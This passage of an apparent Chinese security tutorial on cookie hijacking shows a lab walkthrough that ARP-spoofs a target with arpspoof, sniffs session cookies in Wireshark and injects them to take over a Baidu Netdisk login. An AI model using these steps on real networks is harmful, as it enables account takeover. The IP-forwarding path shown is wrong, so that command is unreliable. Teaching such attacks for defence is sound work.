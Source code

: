 其中，X-XSS-Protection: 0 是关闭浏览器的XSS保护机制。

**防御方法**

针对header的内容做过滤，不能漏掉\r\n，特别是Location，host，referrer等。

### 4) 网络监听

Cookie不仅存在于上层应用中，也会在网络请求中传送，那么通过网络监听也可以抓取到Cookie信息。只要是未使用https加密的网站都可以抓包分析，其中就包含了标识Session的Cookie。

完成网络监听需要满足一定的条件，常见的方式有：中间人攻击、ARP欺骗、DNS投毒。

**攻击方法**

这里演示使用ARP欺骗与Wireshark和Cookie Injector脚本来劫持百度网盘的Cookie。

实验环境：
> 攻击者（Kali Linux）：10.10.10.128
攻击目标：10.10.10.129
默认网关：10.10.10.2
使用到的软件：arpspoof、Firefox（安装GreaseMonkey插件和Cookie Injector脚本）

在Kali Linux中开启内核IP转发：
```bash
root@kali:~# echo 1 > /proc/system/net/ipv4/ip_forward
```

通过traceroute命令追踪网关地址，可以看到网关地址为`10.10.10.2`：
```bash
root@kali:~# traceroute pan.baidu.com
traceroute to pan.baidu.com (202.108.23.29), 30 hops max, 60 byte packets
1   10.10.10.2 (10.10.10.2)  0.149 ms  0.098 ms  0.091 ms
```

通过ifconfig命令查看目前网络接口名称，可以看到本机网络接口名为`eth0`：
```bash
root@kali:~# ifconfig
eth0      Link encap:Ethernet  HWaddr 00:0c:29:e5:1d:2d
          inet addr:10.10.10.128  Bcast:10.10.10.255  Mask:255.255.255.0
```

使用arpspoof毒化arp，欺骗目标主机`10.10.10.129`，目的是通过Wireshark能抓取到它的Cookie信息。arpspoof用法为`arpspoof [-i interface] [-c own|host|both] [-t target] [-r] host`:
```bash
root@kali:~# arpspoof -i eth0 -t 10.10.10.129 10.10.10.2
```

使用Wireshark监听数据，在过滤器中输入`http.cookie`，点击某个数据包，可以看到Cookie字段：

![Wireshark抓取Cookie信息][3]

在Cookie信息上点击右键复制它的值，在本机Firefox浏览器中打开 http://pan.baidu.com ，发现需要登录，使用Alt+C调出Cookie Injector窗口，把复制的Cookie值粘贴进去。

![Firefox中粘贴从Wireshark抓取的Cookie值][4]

刷新页面后，发现已经进入了`10.10.10.129`主机用户的百度网盘，如下图所示：

![利用Cookie登录他人百度网盘][5]


  [1]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000000_post_session_hijacking.webp "Cookie劫持示意图"
  [2]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000100_phpinfo.webp "phpinfo页面"
  [3]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000200_Wireshark.webp "Wireshark抓取Cookie信息"
  [4]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000300_加载Cookie.webp "Firefox中粘贴从Wireshark抓取的Cookie值"
  [5]: https://cdn.jsdelivr.net/gh/gymgle/imgur/2015-06-29_000400_成功登陆.webp "利用Cookie登录他人百度网盘"